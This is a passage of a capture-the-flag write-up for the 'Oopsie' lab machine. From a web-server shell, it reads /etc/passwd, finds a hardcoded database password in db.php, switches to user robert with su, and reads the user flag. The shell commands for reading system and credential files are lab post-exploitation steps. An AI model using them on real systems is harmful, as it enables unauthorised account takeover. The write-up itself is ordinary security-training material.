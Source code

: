 We find a password `MEGACORP_4dm1n!!`.

We can check the available users on the system by reading the `/etc/password` file.<br>
<pre>
$ cat /etc/passwd

<i>ABBREVIATED</i>

uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
<b>robert</b>:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
</pre>


We found user `robert`. In order to login as this user, we use `su robert`. We can try our previously found password `MEGACORP_4dm1n!!`, but with are unsuccesful.

The password We need to keep searching. Lets check the files one by one. Let's start with db.php.<br>
```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

We find that the password for robert is `M3g4C0rpUs3r!`.

Now we can log in as robert.
```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cd ../../../../../
cd ../../../../../
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ 
```

The flag can be found in the home directory of robert:
```
robert@oopsie:/$ cd /home/robert
cd /home/robert
robert@oopsie:~$ ls
ls
user.txt
robert@oopsie:~$ cat user.txt
cat user.txt
********************************
```

Before attempting any privilege escalation, let's check basic commands for elevating privileges, such as `sudo` and `id`:

